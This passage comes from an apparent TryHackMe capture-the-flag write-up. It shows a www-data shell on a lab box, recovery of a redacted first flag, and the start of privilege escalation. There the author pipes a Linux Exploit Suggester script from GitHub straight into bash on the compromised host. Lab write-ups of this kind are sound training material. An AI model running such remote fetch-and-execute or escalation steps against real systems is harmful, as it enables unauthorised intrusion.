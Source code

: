 ```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@petshop:/var/www/monitorr/assets/data/usrimg$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root  root  4096 Apr  9 23:46 .
4 drwxr-xr-x 23 root  root  4096 Apr  9 23:56 ..
4 drwxr-xr-x  6 robyn robyn 4096 Apr 16 19:31 robyn
```

## Flag 1

There's a user Robyn, but nothing in their home drive. Moving up folders from my starting point I find the first flag:

```text
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cd ../../../..
www-data@petshop:/var/www$ ls -l
drwxr-xr-x 9 root     root     4096 Apr 11 17:00 dev
-r-------- 1 www-data www-data   38 Apr 11 23:11 flag1.txt
drwxr-xr-x 9 root     root     4096 Apr 11 14:38 html
drwxr-xr-x 4 www-data www-data 4096 Apr 11 14:24 monitorr

www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cat /var/www/flag1.txt
cat /var/www/flag1.txt
THM{HIDDEN}
```

## Privilege Escalation

Now we need to find a way to escalate ourselves to root. [LinPEAS](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjX96HhoZ7wAhVPPOwKHXXlAK0QFjAAegQIBBAD&url=https%3A%2F%2Fgithub.com%2Fcarlospolop%2Fprivilege-escalation-awesome-scripts-suite%2Ftree%2Fmaster%2FlinPEAS&usg=AOvVaw309l-RiVX5qZhYA8KxOYqQ) didn't find anything interesting. So I tried the [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) which gave a number of options:

```text
www-data@petshop:/tmp$ wget -O - https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash

--2021-04-26 22:52:26--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87559 (86K) [text/plain]
Saving to: 'STDOUT'
     0K .......... .......... .......... .......... .......... 58% 1.36M 0s
    50K .......... .......... .......... .....                100%  257K=0.2s
2021-04-26 22:52:26 (492 KB/s) - written to stdout [87559/87559]

Available information:
Kernel version: 4.15.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 18.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:
76 kernel space exploits
48 user space exploits
```